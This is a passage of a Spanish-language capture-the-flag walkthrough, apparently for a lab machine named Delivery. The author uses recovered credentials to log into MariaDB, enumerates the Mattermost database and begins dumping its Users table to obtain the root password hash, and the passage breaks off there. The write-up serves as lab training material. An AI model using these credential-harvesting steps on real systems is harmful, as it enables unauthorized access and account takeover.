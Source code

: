 Intentaremos acceder al servicio de `MySQL` con las credenciales obtenidas. Verificamos que podemos acceder y enumerando las bases de datos, nos encontramos con una BBDD de `Mattermost`.

```bash
maildeliverer@Delivery:~$ mysql -u mmuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 82
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)
```

Al listar las tablas de la BBDD mencionada, comprobamos que existe una tabla llamada `users` la cual podría contener información interesante, credenciales, etc.

<pre class="language-bash"><code class="lang-bash">MariaDB [(none)]> SHOW TABLES FROM mattermost;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
<strong>...[snip]...
</strong>| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+
46 rows in set (0.001 sec)
</code></pre>

Al enumerar los datos de la tabla `users`, nos encontramos con varios usuarios de la plataforma de `Mattermost`, entre los cuales aparece el hash del usuario `root`.

```bash
MariaDB [(none)]> USE mattermost;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

MariaDB [mattermost]> SELECT * FROM Users;
+----------------------------+---------------+---------------+----------+----------------------------------+--------------------------------------------------------------+----------+-------------+-------------------------+---------------+----------+--------------------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+------------------------------------------------------------------------------------------+-----------+-----------+
```